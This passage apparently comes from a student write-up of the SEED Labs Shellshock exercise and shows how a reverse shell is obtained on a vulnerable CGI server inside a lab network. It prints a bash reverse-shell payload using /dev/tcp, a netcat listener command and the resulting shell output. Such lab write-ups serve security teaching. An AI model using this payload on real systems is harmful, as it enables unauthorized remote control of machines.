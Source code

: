 ```bash
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
</body></html>
```

### Task 4

At the last stage of the attack, we want to get a reverse shell running in the server that will connect to the attacker's machine. This will give us a convenient way to run commands on the compromised machine.

First, we have to figure the IP of the host/attacker machine to where the victim will connect. As shown it is `10.0.2.4`.

```bash
[03/12/22]seed@VM:.../ssi$ ifconfig
...

enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.4  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::2a4d:ffa2:f025:ea08  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:c8:be:ff  txqueuelen 1000  (Ethernet)
        RX packets 16361  bytes 21735211 (21.7 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7502  bytes 718969 (718.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

...
```

And then we prepare the payload to send. In this case, it is:


```bash
/bin/bash -i > /dev/tcp/10.0.2.4/9090 0<&1 2>&1
```

What this does is, opens an interactive shell connected to the server. Both Standard Output and Standard Error streams are connected to a listener in the remote machine which keeps listening for incoming connections. This makes it possible for the attacker to view the commands' output. As for the listener setup, we execute the `nc -nv -l 9090` command, which sets up a TCP socket waiting for connections on port 9090. Lastly, regarding the Standard Input stream, it is also connected to the attacker's machine making it possible to issue commands from it and view its output.

On the attacker side:

```bash
[03/12/22]seed@VM:.../ssi$ nc -nv -l 9090
Listening on 0.0.0.0 9090
Connection received on 10.9.0.80 52610
bash: cannot set terminal process group (31): Inappropriate ioctl for device
bash: no job control in this shell
www-data@39f2e305d1e0:/usr/lib/cgi-bin$ ls
ls
getenv.cgi
vul.cgi
```
